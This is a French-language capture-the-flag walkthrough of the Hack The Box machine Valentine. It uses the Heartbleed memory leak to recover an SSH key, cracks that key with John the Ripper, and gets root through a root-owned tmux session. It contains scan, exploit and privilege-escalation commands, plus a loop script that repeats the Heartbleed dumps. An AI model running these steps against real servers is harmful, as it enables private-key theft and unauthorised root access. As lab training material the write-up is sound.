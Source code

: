 ```yaml
---
title: "Valentine.htb — Exploitation de la vulnérabilité Heartbleed"
date: 2025-08-04
draft: false
tags: ["HTB", "CTF", "Heartbleed", "Linux", "PrivEsc"]
categories: ["CTF"]
---
```


## 🧠 Résumé

La machine `Valentine.htb` (Hack The Box) est une box de difficulté *Facile* exposant une vulnérabilité historique : **Heartbleed**. Grâce à une fuite de mémoire TLS, nous récupérons une clé privée chiffrée, que nous déchiffrons pour établir une connexion SSH. L’escalade de privilèges repose sur un processus `tmux` persistant lancé par root.

---

## 🔍 Phase de Reconnaissance

```bash
# Scan initial TCP full range
nmap -p- -sS -T4 valentine.htb

# Scan ciblé avec détection de version
nmap -p 22,80,443 -sC -sV valentine.htb
```

**Ports ouverts :**
- 22/tcp — SSH (OpenSSH 5.9p1 Debian)
- 80/tcp — HTTP (Apache 2.2.22)
- 443/tcp — HTTPS (Apache 2.2.22 avec SSL vulnérable)

---

## 🌐 Analyse Web

- Le port `80` affiche un logo et redirige vers `https://valentine.htb`.
- Une image `omg.jpg` est disponible mais ne contient rien de concluant en steganographie (`steghide`, `stegseek`).
- Un fichier `notes.txt` évoque un encoder/decoder côté client, en construction.

---

## ❤️ Exploitation Heartbleed (CVE-2014-0160)

Le service HTTPS utilise OpenSSL vulnérable :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :
```
State: VULNERABLE
```

Exploitation automatisée via script `heartbleed-exploit.py` :

```bash
python2 heartbleed-exploit.py valentine.htb --output dumps/out_001.txt --ascii
```

**Données récupérées :**
- Une clé au format hex : `hype_key`
- Convertie en PEM avec :
```bash
xxd -r -p hype_key > hype_key.pem
```

**Déchiffrement avec John the Ripper :**

```bash
ssh2john hype_key.pem > hype_key.hash
john hype_key.hash --wordlist=rockyou.txt
```

Mot de passe trouvé : `heartbleedbelievethehype`

---

## 🔐 Accès SSH

```bash
chmod 600 hype_key.pem
ssh -i hype_key.pem hype@valentine.htb
```

---

## 🔎 Post-Exploitation

### Fichier `.bash_history`

```bash
cat ~/.bash_history
```

Contient :
```bash
tmux -S /.devs/dev_sess
tmux a -t dev_sess
```

### Processus tmux (root)

```bash
ps aux | grep tmux
```

```bash
root       1040  0.0  0.1  26416  1672 ? Ss 01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

On peut l’attacher :

```bash
tmux -S /.devs/dev_sess attach
```

Et on obtient une session root. 🎉

---

## 🏁 Conclusion

Une machine pédagogique exploitant une faille emblématique. Elle montre :

- la dangerosité d'une vulnérabilité SSL
- l'intérêt de `bash_history`
- et l’importance de surveiller les processus persistants (comme `tmux`) pour l’escalade de privilèges

## 📜 Scripts utiles

### 🔁 heartbleed_full.sh
```bash
#!/bin/bash
echo "🔢 Nombre d'itérations Heartbleed à exécuter :"
read nb
for i in $(seq -f "%03g" 1 $nb); do
  echo "➡️  [Iteration $i]..."
  python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo "🧪 Extraction des chaînes ASCII avec strings..."
mkdir -p ascii
for f in dumps/out_*.txt; do
  strings "$f" | grep -E '.{4,}' >> ascii/output_full.txt
done
echo "✅ Résultat regroupé dans ascii/output_full.txt"
```

### 🐍 heartbleed-exploit.py (extrait)
```python
# Extrait de heartbleed-exploit.py
def hexdump(payload, ascii_only, outfile):
    with open(outfile, 'w') as f:
        for b in range(0, len(payload), 16):
            lin = payload[b: b + 16]
            if ascii_only:
                text = ''.join(c if 32 <= ord(c) <= 126 else '' for c in lin)
                f.write(text)
            else:
                hex_bytes = ' '.join('%02X' % ord(c) for c in lin)
                ascii_text = ''.join(c if 32 <= ord(c) <= 126 else '.' for c in lin)
                f.write('%04x: %-48s %s\n' % (b, hex_bytes, ascii_text))
        f.write('\n')
```